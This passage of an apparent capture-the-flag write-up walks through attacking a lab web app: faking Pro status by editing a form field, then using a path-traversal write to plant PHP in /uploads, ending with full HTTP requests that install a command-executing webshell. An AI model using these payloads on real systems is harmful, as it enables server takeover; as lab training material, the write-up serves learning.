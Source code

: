 I don’t really want to change my name, but rather to get Pro status. I’ll change the field to “pro” and the value to “true”, and send again. On refresh, my page says Pro!

![image-20230515160423427](/img/image-20230515160423427.png)

### WebShell

#### Pro Changes

With pro, my site exit now has an `img` option:

![image-20230515162509255](/img/image-20230515162509255.png)

If I give it an image, it loads:

![image-20230515162746163](/img/image-20230515162746163.png)

The image is located at `http://oxdf.microblog.htb/uploads/6462959cc8f1b2.38277097_gneojkiqpmhfl.png`.

I noted above that the client-side application forces a `.png` extension onto whatever I upload.

#### Write to /uploads

I’ll use the write vulnerability to write a `.php` file into `/uploads`:

```

POST /edit/index.php HTTP/1.1
Host: oxdf.microblog.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://oxdf.microblog.htb
Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
Upgrade-Insecure-Requests: 1

id=../uploads/0xdf.php&txt=<?php+echo+"0xdf!";+?>

```

Now with Pro access, I can access this directory, and unlike the previous directory, this time the PHP executes:

![image-20230515163354827](/img/image-20230515163354827.png)

#### Webshell -> Shell

I’ll resend the write request, but this time writing a simple PHP webshell:

```

POST /edit/index.php HTTP/1.1
Host: oxdf.microblog.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://oxdf.microblog.htb
Cookie: username=rbb8bp6umb0logs0i3sqlcp5kc
Upgrade-Insecure-Requests: 1

id=../uploads/0xdf.php&txt=<?php+system($_REQUEST['cmd']);+?>

```

